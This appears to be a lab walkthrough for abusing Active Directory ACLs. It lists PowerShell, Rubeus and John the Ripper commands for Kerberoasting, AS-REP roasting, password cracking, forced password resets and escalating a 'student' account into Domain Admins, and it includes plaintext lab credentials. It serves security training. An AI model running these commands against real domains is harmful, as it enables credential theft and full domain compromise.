# AD-ACL Abuse

##### Use SharpHound to collect all the data
```
cd C:\Tools\BloodHound\BloodHound\resources\app\Collectors
powershell -ep bypass 
. .\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All
```

##### Open the BloodHound GUI:
```
cd C:\Tools\BloodHound\BloodHound
.\BloodHound.exe
```

Use the following credentials to log in:

- **Username:** neo4j
- **Password:** Password@123

##### Upload the zip from the location **C:\Tools\BloodHound\BloodHound\resources\app\Collectors**

### Task 1: Exploit a path to DnsAdmins by Kerberoasting david.

##### Use the PowerView
```
cd C:\Tools
powershell -ep bypass 
. .\PowerView.ps1
```

##### Chcek David is Kerberoastable or not
```
Get-DomainUser -Identity david | select samaccountname, serviceprincipalname
```

##### Set a random SPN for david
```
Set-DomainObject david -Set @{serviceprincipalname='ops/whatever15699'}
```

##### Check if the SPN was set using the following command:

```
Get-DomainUser -Identity david | select samaccountname, serviceprincipalname
```

##### Use Rubeus to perform the kerberoasting attack
```
mkdir HASHES
./Rubeus.exe kerberoast /user:david /outfile:C:\Tools\HASHES\david_hash.txt
```

##### Use John The RIpper for cracking the password. Unzip johnTheRipper from C:\Tools
```
.\johnTheRipper\john-1.9.0-jumbo-1-win64\run\john.exe --format=krb5tgs .\HASHES\david_hash.txt --wordlist=.\10k-worst-pass.txt
```

##### Check group membership of the student
```
Get-NetGroup -UserName "student" | select name
```

##### Add student to test group
```
$SecPassword = ConvertTo-SecureString 'abc_123321' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('research\david', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "test_team" -PrincipalIdentity "david" -Rights All

Add-DomainGroupMember -Identity 'test_team' -Members 'student' -Credential $Cred
```

##### Again check group membership of the student
```
Get-NetGroup -UserName "student" | select name
```

### Task 2: Exploit a path to Group Policy Creator Owners group by AS-REP Roasting john.

##### Check if John is AS-REP rostable
```
Get-DomainUser -Identity john | select samaccountname, useraccountcontrol
```

##### Disable Kerberos pre-authentication for john
```
Set-DomainObject -Identity john -XOR @{UserAccountControl=4194304}

Get-DomainUser -Identity john | select samaccountname, useraccountcontrol
```

##### Use Rubeus to AS-REP roast
```
./Rubeus.exe asreproast /user:john /outfile:C:\Tools\HASHES\john_hash.txt 
```

##### Use Ripper to crack the password
```
.\johnTheRipper\john-1.9.0-jumbo-1-win64\run\john.exe --format=krb5asrep .\HASHES\john_hash.txt --wordlist=.\10k-worst-pass.txt
```

##### Add sutdent to the group
```
$SecPassword = ConvertTo-SecureString 'pepper_123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('research\john', $SecPassword)

Set-DomainObjectOwner -Identity "dev_team" -OwnerIdentity john -Credential $Cred

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "dev_team" -PrincipalIdentity "john" -Rights All

Add-DomainGroupMember -Identity 'dev_team' -Members 'student' -Credential $Cred
```

##### Check group membership of the student
```
Get-NetGroup -UserName "student" | select name
```

### Task 3: Exploit the path to Domain Admins
##### Change tom's password
```
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

Set-DomainUserPassword -Identity tom -AccountPassword $UserPassword
```

##### Use the privileges of tom to add student to the Domain Admins group
```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('research\tom', $SecPassword)

Add-DomainGroupMember -Identity 'Domain Admins' -Members 'student' -Credential $Cred
```

##### Check the group membership of the student
```
Get-NetGroup -UserName "student" | select name
```
